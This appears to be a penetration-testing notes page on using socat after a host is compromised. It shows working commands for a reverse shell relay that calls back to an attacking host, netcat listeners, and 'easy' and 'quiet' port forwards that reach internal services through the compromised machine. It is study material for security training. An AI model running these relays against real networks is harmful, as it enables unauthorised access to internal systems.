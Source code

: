 ```yaml
---
description: >-
  Socat is not just great for fully stable Linux shells, it's also superb for
  port forwarding.
---
```


# Socat

The one big **disadvantage** of socat (aside from the frequent problems people have learning the syntax), is that it is **very rarely installed by default** on a target.

Whilst the following techniques could not be used to **set up a full proxy into a target network**, it is quite possible to use them to successfully **forward ports** from both Linux and Windows **compromised targets**. In particular, socat makes **a very good relay**:

* For example, if you are attempting to get a **shell** on a **target** that does not have a **direct connection back** to your attacking computer, you could use socat to set up **a relay** on the **currently compromised machine**. This **listens** for the reverse shell from the target and then **forwards it immediately** back to the **attacking box**:

![](<../../.gitbook/assets/image (50).png>)

`Socat static binaries :`

{% embed url="https://github.com/andrew-d/static-binaries" %}

```
Think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things.

Generally speaking, however, hackers tend to use it to either create reverse/bind shells, or, as in the example above, create a port forward. 
Specifically, in the above example we're creating a port forward from a port on the compromised server to a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a target inside the network, or creating a direct link between a listening port on the attacking machine with the service on the internal server. This latter application is especially useful as it does not require opening a port on the compromised server.
```

***

### Reverse Shell Relay

_Socat_ to create a relay for us to send a reverse shell back to our own attacking machine (as in the diagram above).

```
# 1. First start a nc listener on the attacking box
sudo nc -lvnp 443

# 2. Next, on the compromised server, to start the relay:
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &

** Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.

- tcp-l:8000 is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- tcp:ATTACKING_IP:443 connects back to our local IP on port 443. 
```

* In this way, we can set up **a relay to send reverse shells through a compromised system**, back to our own **attacking machine**. This technique can also be chained quite easily; however, in many cases it may be **easier** to just upload **a static copy of netcat** to receive your reverse shell **directly on the compromised server**.

### Port Forwarding -- Easy

With _socat_ simply to open up a **listening port** on the **compromised server**, and **redirect whatever comes** into it to the **target server**.

* For example, if the **compromised server** is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create **a port forward**:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
# 33060 : the port we opened on the compromised server
# 3306 : the port opened on the intended target server

- fork : used to put every connection into a new process
- reuseaddr : the port stays open after a connection is made to it
- Combined, they allow us to use the same port forward for more than one connection. 
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10.

* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

### Port Forwarding -- Quiet

This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```
# 1. On the attacking machine :
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

```
# 2. On the compromised relay server, execute:
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &

// This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!
```
